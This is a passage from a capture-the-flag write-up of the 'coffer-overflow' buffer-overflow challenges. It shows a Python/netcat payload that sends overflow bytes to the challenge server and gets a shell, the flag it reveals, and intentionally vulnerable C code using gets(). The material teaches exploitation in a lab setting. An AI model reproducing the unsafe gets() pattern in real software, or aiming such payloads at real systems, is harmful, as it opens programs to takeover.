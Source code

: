 This is as simple as buffer overflows go. If `code` is not `0`, then we will get a shell. All that we have to do is overflow the `name` buffer such that we overwrite the adjacent memory belonging to `code`, changing its value. Because `name` is 16 bytes, we can accomplish this by inputting a much greater amount.

In this case, I'm using Python to generate a payload of 32 bytes and sending it to the remote flag server via netcat. After doing so, we get a shell and can execute commands such as `ls` and `cat`.

```
[skat@iris:~] $ (python2 -c "print 'A'*32"; cat) | nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

Captured!

```
flag{b0ffer_0verf10w_3asy_as_123}
```

## coffer-overflow-1

Files: `coffer-overflow-1`, `coffer-overflow-1.c`

This is a slightly more sophisticated buffer overflow challenge, but not by much.

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
